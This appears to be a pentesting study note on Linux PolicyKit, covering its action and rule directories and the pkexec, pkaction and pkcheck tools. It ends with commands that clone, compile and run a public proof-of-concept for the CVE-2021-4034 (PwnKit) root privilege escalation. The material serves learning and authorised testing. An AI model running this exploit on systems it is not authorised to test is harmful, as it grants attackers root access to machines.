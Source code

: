 PolicyKit - allows software and system components to communicate with each other if the user software is authorized to do so.

Polkit works with two groups of files:
1. actions/policies (/usr/share/polkit-1/actions)
2. rules (/usr/share/polkit-1/rules.d)

Polkit also has local authority rules chich can set or remove additional permissions for users and groups

Three additional programs:
- pkexec: runs a program with the rights of another user or with root rights
- pkaction: can be used to display actions
- pkcheck: this can be used to check if a process is authorized for a specific action

```shell-session
pkexec -u root id
```

**Vulnerability
```shell-session
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
./poc
```

